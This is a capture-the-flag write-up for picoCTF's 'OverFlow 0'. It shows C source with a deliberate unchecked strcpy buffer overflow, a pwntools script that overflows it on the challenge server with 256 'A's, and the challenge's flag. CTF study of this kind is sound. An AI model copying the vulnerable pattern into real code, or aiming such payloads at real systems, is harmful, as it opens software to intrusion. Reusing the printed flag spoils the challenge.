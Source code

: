 # OverFlow 0 - Points: 100

## Description

This should be easy. Overflow the correct buffer in this [program](./vuln) and get a flag. Its also found in /problems/overflow-0_2_20c7eb49602df3c04c1f43bf9aff1faa on the shell server. [Source](./vuln.c).

## Solution

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[128];
  strcpy(buf, input);
}

int main(int argc, char **argv){

  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  if (argc > 1) {
    vuln(argv[1]);
    printf("You entered: %s", argv[1]);
  }
  else
    printf("Please enter an argument next time\n");
  return 0;
}
```

We can see that the source code contains a handler for the ```SIGSEGV``` error code, which is thrown for buffer overflows.

```c
signal(SIGSEGV, sigsegv_handler);
```

This handler is our "win" function and contains instructions to print the flag.

```c
void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}
```

We can also see that the ```vuln()``` function uses ```strcpy()``` to copy the first argument into a char array with a size of 128.
This can be used to cause a buffer overflow as the length of the first argument is never checked, allowing ```strcpy()``` to write past the end of the buffer.

We can cause a segmentation fault to occur by passing an argument somewhat larger than the buffer size.

## Exploit script

I used pwntools to connect to the shell server and called the function with an argument of length 256 to ensure a segmentation fault error.

```py
#!/usr/bin/python
from pwn import *
from getpass import getpass

pico_user = input("Username: ")[:-1]
pico_pass = getpass("Password: ")

conn = ssh(host = '2019shell1.picoctf.com', user = pico_user, password = pico_pass)

location = '/problems/overflow-0_2_20c7eb49602df3c04c1f43bf9aff1faa'

print("running vuln")
print("sending payload")
payload = 'A' * 256
vuln = conn.process([location + '/vuln', payload], cwd = location)

flag = vuln.recvline().decode()[:-1]
print(flag)

print("done")
```

## Flag

```picoCTF{3asY_P3a5yd2b59a57}```


